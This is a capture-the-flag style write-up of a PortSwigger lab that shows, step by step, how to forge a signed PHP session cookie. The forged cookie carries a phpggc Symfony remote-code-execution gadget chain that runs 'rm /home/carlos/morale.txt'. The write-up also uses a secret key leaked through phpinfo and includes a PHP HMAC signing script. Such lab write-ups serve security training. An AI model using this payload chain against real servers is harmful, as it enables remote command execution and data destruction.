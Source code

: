 # Exploiting PHP deserialization with a pre-built gadget chain | Jan 11, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-exploiting-php-deserialization-with-a-pre-built-gadget-chain), you'll learn: Exploiting PHP deserialization with a pre-built gadget chain! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab has a serialization-based session mechanism that uses a signed cookie. It also uses a common PHP framework. Although you don't have source code access, you can still exploit this lab's [insecure deserialization](https://portswigger.net/web-security/deserialization) using pre-built gadget chains.

To solve the lab, identify the target framework then use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, work out how to generate a valid signed cookie containing your malicious object. Finally, pass this into the website to delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111194743.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111194756.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111194813.png)

When we're successfully logged in, it'll set a new session cookie.

**URL decoded:**
```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJseGF1N3pybHQ2cHU4bGFnYWhnNmRvcm1uajF6aGRncyI7fQ==","sig_hmac_sha1":"5ccbfbdfb92f58616d627e16c27d3bde8f720362"}
```

As you can see, the `token` key's value last 2 characters are `=`, which is a padding for base64 encoding.

**Let's decode that:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 19:49:51
╰─○ echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJseGF1N3pybHQ2cHU4bGFnYWhnNmRvcm1uajF6aGRncyI7fQ==' | base64 -d              
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"lxau7zrlt6pu8lagahg6dormnj1zhdgs";}
```

In here, we can see that is a **PHP serialized object.**

**View source page:**
```html
<!-- <a href=/cgi-bin/phpinfo.php>Debug</a> -->
```

In the "My Account" page, there is a HTML comment, which is an `<a>` element that points to `/cgi-bin/phpinfo.php`.

**Let's go there:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111195303.png)

This page is a the web application PHP's configuration.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111201646.png)

- Found `SECRET_KEY` environment variable: `2u7ak75w9a051k3ehgji62gykvo0k3gl`

**Now, we can try to modify the PHP serialized object:**
```php
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"lxau7zrlt6pu8lagahg6dormnj1zhdgs";}
```

**Then base64, URL encode it, and send the payload:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:18:32
╰─○ echo -n 'O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";s:32:"lxau7zrlt6pu8lagahg6dormnj1zhdgs";}' | base64
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6Imx4YXU3enJsdDZwdThsYWdhaGc2ZG9ybW5qMXpoZGdzIjt9
```

```json
{"token":"Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6Imx4YXU3enJsdDZwdThsYWdhaGc2ZG9ybW5qMXpoZGdzIjt9","sig_hmac_sha1":"5ccbfbdfb92f58616d627e16c27d3bde8f720362"}
```

```json
%7B%22token%22%3A%22Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO3M6MzI6Imx4YXU3enJsdDZwdThsYWdhaGc2ZG9ybW5qMXpoZGdzIjt9%22%2C%22sig_hmac_sha1%22%3A%225ccbfbdfb92f58616d627e16c27d3bde8f720362%22%7D
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111202007.png)

In here, we saw an error message, which tells us the `sig_hmac_sha1` doesn't match.

However, it also leaked the PHP framework: Symfony version 4.3.6

Armed with above information, we can start to build our gadet chains.

**Luckly, there is a tool called `phpggc` (PHP Generic Gadget Chains), which generates a PHP serialized object gadget chains.**

**We can use `phpggc -l Zend` to list all available gadget chains:**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:13:39
╰─○ phpggc -l Symfony                                                  

Gadget Chains
-------------

NAME            VERSION                        TYPE                   VECTOR         I    
Symfony/FW1     2.5.2                          File write             DebugImport    *    
Symfony/FW2     3.4                            File write             __destruct          
Symfony/RCE1    3.3                            RCE (Command)          __destruct     *    
Symfony/RCE2    2.3.42 < 2.6                   RCE (PHP code)         __destruct     *    
Symfony/RCE3    2.6 <= 2.8.32                  RCE (PHP code)         __destruct     *    
Symfony/RCE4    3.4.0-34, 4.2.0-11, 4.3.0-7    RCE (Function call)    __destruct     *
```

**Let's use the `Symfony/RCE1` payload!**
```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:20:59
╰─○ phpggc -i Symfony/RCE1
Name           : Symfony/RCE1
Version        : 3.3
Type           : RCE (Command)
Vector         : __destruct
Informations   : 
Executes given command through proc_open()

./phpggc Symfony/RCE1 <command>

╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:21:26
╰─○ phpggc -b Symfony/RCE1 'rm /home/carlos/morale.txt' 
Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=
```

**Combined payload:**
```json
{"token":"Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=","sig_hmac_sha1":"5ccbfbdfb92f58616d627e16c27d3bde8f720362"}
```

However, this payload won't work, because the HMAC SHA1 key doesn't match to the sever one.

**To solve that, we can sign our own HMAC key via a PHP's `hash_hmac` function, as we have the `SECRET_KEY` environment variable:**
```php
<?php
    $gadgetChains = 'Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30=';
    $secretKey = '2u7ak75w9a051k3ehgji62gykvo0k3gl';

    $signedHMACSHA1Key = hash_hmac('sha1', $gadgetChains, $secretKey);
    $cookie = "{\"token\":\"$gadgetChains\",\"sig_hmac_sha1\":\"$signedHMACSHA1Key\"}";

    $finalPayload = urlencode($cookie);

    echo "[+] Final payload: \n" . $finalPayload;
?>
```

```shell
╭─root at siunam in ~/ctf/Portswigger-Labs/Insecure-Deserialization 23-01-11 - 20:29:30
╰─○ php sign_key.php
[+] Final payload: 
%7B%22token%22%3A%22Tzo0MzoiU3ltZm9ueVxDb21wb25lbnRcQ2FjaGVcQWRhcHRlclxBcGN1QWRhcHRlciI6Mzp7czo2NDoiAFN5bWZvbnlcQ29tcG9uZW50XENhY2hlXEFkYXB0ZXJcQWJzdHJhY3RBZGFwdGVyAG1lcmdlQnlMaWZldGltZSI7czo5OiJwcm9jX29wZW4iO3M6NTg6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBuYW1lc3BhY2UiO2E6MDp7fXM6NTc6IgBTeW1mb255XENvbXBvbmVudFxDYWNoZVxBZGFwdGVyXEFic3RyYWN0QWRhcHRlcgBkZWZlcnJlZCI7czoyNjoicm0gL2hvbWUvY2FybG9zL21vcmFsZS50eHQiO30%3D%22%2C%22sig_hmac_sha1%22%3A%223f9ccfcdbecca0452e54f14747cece4fc8fa0a7b%22%7D
```

**Then copy that URL encoded payload to our session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111203048.png)

After that, refresh the page:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-6/images/Pasted%20image%2020230111203059.png)

Nice!

# What we've learned:

1. Exploiting PHP deserialization with a pre-built gadget chain